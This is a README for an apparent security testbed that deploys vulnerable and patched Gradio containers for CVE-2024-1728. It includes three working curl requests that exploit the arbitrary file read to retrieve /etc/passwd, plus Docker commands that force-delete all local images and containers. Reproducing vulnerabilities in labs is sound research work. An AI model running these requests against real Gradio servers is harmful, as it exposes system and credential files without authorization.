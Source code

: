 # Gradio CVE-2024-1728

This directory contains the deployment config for Gradio instances vulnerable and fixed to CVE-2024-1728. Gradio versions below 4.19.2 are vulnerable to that arbitrary file read vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following three curl commands. In a vulnerable environment, after the final curl request, you can see the /etc/passwd file content in the response.
```sh
# Send a file upload request
curl -X POST -H 'Content-Type: application/json' -d '{"data":[[{"path":"/etc/passwd","url":"http://127.0.0.1:7860/file=/help","orig_name":"CHANGELOG.md","size":3549,"mime_type":"text/markdown"}]],"event_data":null,"fn_index":0,"trigger_id":2,"session_hash":"hu6na4f3d08"}' 'http://localhost:8000/queue/join?'

# See the queued operations (Get PATH value from the JSON in the response whose msg key is process_completed, example: /tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd)
curl 'http://localhost:8000/queue/data?session_hash=hu6na4f3d08'

# Read the file content (example: http://localhost:8000/file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd):
curl 'http://localhost:8000/file=PATH'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```sh
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```sh
docker build -t gradio:fixed -f fixed.Dockerfile .
docker run --name gradio-fixed -p 8000:8000 -d gradio:fixed
```

The deployed service listens on `localhost:8000` after the docker completes its job.

## Vulnerable version
```sh
docker build -t gradio:vuln -f vulnerable.Dockerfile .
docker run --name gradio-vuln -p 8000:8000 -d gradio:vuln
```

The deployed service listens on `localhost:8000` after the docker completes its job.
